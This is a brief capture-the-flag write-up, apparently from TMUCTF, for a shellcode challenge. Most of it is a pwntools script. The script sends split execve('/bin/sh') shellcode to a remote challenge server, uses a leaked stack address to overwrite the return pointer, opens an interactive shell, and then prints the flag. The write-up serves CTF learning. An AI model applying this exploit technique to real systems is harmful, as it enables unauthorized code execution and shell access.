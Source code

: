 # Challenge Description
<p align="center">
  <img src="Challenge.png">
</p>
<br>

# Writeup
This is a shellcode challenge. We have to insert a two-part shellcode and finally overwrite the address of the beginning of the shellcode. Here is the script:    
```python
from pwn import *
context.arch = "amd64"

r = remote("194.5.207.113", 7030)
sh1 = ''
sh1 += asm('mov rbx, 0x68732f6e69622f2f')
sh1 += asm('jmp $-0x25')
sh2 = ''
sh2 += asm('xor rsi, rsi')
sh2 += asm('xor rdx, rdx')
sh2 += asm('mov al, 0x3b')
sh2 += asm('push rdx')
sh2 += asm('push rbx')
sh2 += asm('mov rdi, rsp')
sh2 += asm('syscall')

r.recvuntil(':')
r.sendline(sh1)
r.recvuntil(':')
r.sendline(sh2)
r.recvuntil('address: ')
n = r.recvuntil('\n')
print(n)
leak = int(n,16)
log.info('leak : 0x%x' % leak)
r.recvuntil(': ')
r.sendline('a'*20 + p64(leak + 12))
r.interactive()
```   
The flag:   
```
TMUCTF{3x3cu74bl3_574ck_15_v3ry_d4n63r0u5}
```  
